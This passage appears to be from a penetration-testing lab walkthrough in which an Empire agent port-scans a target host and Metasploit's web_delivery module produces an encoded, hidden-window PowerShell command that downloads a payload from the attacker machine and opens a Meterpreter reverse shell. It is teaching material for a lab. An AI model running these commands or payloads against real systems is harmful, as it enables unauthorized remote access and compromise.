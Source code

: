 `set Hosts 10.4.27.15`, `execute`:
```
[*] Tasked DemoINE to run Task 6
```

_Displaying the results of the port scan, showing open ports on the target host._

`history`:
```
[*] Task 6 results received

Hostname   OpenPorts       
--------   ---------       
10.4.27.15 3389,445,139,135 ←


Invoke-Portscan completed
```

<span style="color: #e57373;">**Attacker machine**</span>.

_Opening Metasploit console._

`msfconsole -q`

_Setting up the Metasploit web delivery module to deliver a Meterpreter payload._

`search web_delivery`, `use exploit/multi/script/web_delivery`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.23.2`, `show targets`, `set TARGET PSH`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.23.2:4444 
[*] Using URL: http://0.0.0.0:8080/1Quk5U
msf6 exploit(multi/script/web_delivery) > [*] Local IP: http://10.10.23.2:8080/1Quk5U ←
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABpAHYAdABPAHEAPQBuAGUAdwAtAG8AYgBqAGUAY

...

AEEAVgA0AGQANgAnACkAKQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMgAzAC4AMgA6ADgAMAA4ADAALwAxAFEAdQBrADUAVQAnACkAKQA7AA==
```

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Loading the module to invoke a Metasploit payload._

`usemodule powershell/code_execution/invoke_metasploitpayload`

`info`:
```
 Author       @jaredhaight                                                        
 Background   False                                                               
 Comments     https://github.com/jaredhaight/Invoke-MetasploitPayload/            
 Description  Spawns a new, hidden PowerShell window that downloadsand executes a 
              Metasploit payload. This relies on                                  
              theexploit/multi/scripts/web_delivery metasploit module. ←           
 Language     powershell                                                          
 Name         powershell/code_execution/invoke_metasploitpayload                  
 NeedsAdmin   False                                                               
 OpsecSafe    True                                                                
 Techniques   http://attack.mitre.org/techniques/T1055  
```
